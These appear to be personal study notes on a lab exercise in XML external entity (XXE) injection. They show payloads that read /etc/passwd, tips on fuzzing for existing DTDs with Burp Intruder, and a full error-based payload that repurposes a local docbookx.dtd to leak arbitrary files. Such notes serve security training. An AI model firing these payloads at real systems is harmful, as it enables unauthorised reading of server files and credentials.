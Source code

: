  
6. Try re-purposing a local [DTD] 


> [!NOTE] Local DTD
> Check if error allows us to check if DTD exists on the system or not > you do this by calling a NONE exsisting DTD andif the error tells us if it exists or not > think back to the CBBH


```
<!DOCTYPE test [<!ENTITY % xxe SYSTEM "file:///etc/fakefile"> %xxe;]>
```

#### BINGO --> Now we're cooking


> [!NOTE] The error we get is a good sign
> 1. It tells us that the XML is parsing Input
> 2. Might be able to tell us the contents of /etc/passwd


```
<!DOCTYPE test [<!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe;]>
```



> [!NOTE] Keep Digging
> Find a DTD that already exists on the server > there are common DTDs that you can look up online that you can try -> the "hint" in the lab already gives us a URL for this -> however, in RL you can google: [ gosecure dtd xxe ] > its a github: https://github.com/GoSecure/dtd-finder > FUZZ most common DTDs using XXE injection to see which is valid & which isn't valid > if we get 200 response it means DTD exsists > ALSO turn OFF url encoding in burp intruder when fuzzing

![[Pasted image 20240803150027.png]]



> [!NOTE] Next step after confirming DTD exsists
> 1. Over write an entity in this DTD and get the entity to error out & output the content of the Etsy passwd file
> 2. we can just copy the path ( from the hint ) and paste it in google > add "xxe injection" after the url path  
> - usr/share/yelp/dtd/docbookx.dtd xxe injection payloads
> 3. check to see if anyone had ever tried this already and can eat what they cooked ;) 
> hint: check [payloadallthethings] github


Here is the payload: 
```
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///REPLACE_WITH_FILENAME_TO_READ">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
```
